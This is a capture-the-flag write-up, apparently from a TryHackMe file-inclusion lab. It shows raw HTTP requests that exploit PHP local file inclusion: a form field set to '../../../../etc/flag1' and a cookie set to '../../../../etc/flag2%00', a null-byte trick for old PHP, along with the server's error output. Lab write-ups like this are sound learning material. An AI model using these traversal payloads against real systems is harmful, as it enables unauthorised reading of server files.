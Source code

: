 - Couldn't seem to get welcome.php to work so just yolo'd
- Figured out the number of directories needed to traverse from the error response "/var/www/html" and the url was challenges/chall1.php

```
POST /challenges/chall1.php HTTP/1.1
Host: 10.10.82.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

file=../../../../etc/flag1
```

2. Capture Flag2 at /etc/flag2

- When accessing the page it prompts you to refresh the page
- Intercepting this request with burpsuite a cookie is observed in the request
```
GET /challenges/chall2.php HTTP/1.1
Host: 10.10.54.175
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.54.175/challenges/
Connection: close
Cookie: THM=Guest
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
- Attempt to change the THM cookie to Admin and we get an error response
```
File Content Preview of Admin
Welcome Admin

Warning: include(includes/Admin.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/chall2.php on line 37

Warning: include() [function.include]: Failed opening 'includes/Admin.php' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in /var/www/html/chall2.php on line 37
```
- Can attempt a path traversal by changing the cookie to ../../../../etc/flag2
```
<b>Warning</b>:  include() [<a href='function.include'>function.include</a>]: Failed opening 'includes/../../../../etc/flag2.php' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in <b>/var/www/html/chall2.php</b> on line <b>37</b>
```
- This fails because '.php' is being appended to the output
- as this is php 5.2 can try the null byte terminator and the flag is output
```
GET /challenges/chall2.php HTTP/1.1
Host: 10.10.54.175
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.54.175/challenges/
Connection: close
Cookie: THM=../../../../etc/flag2%00
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
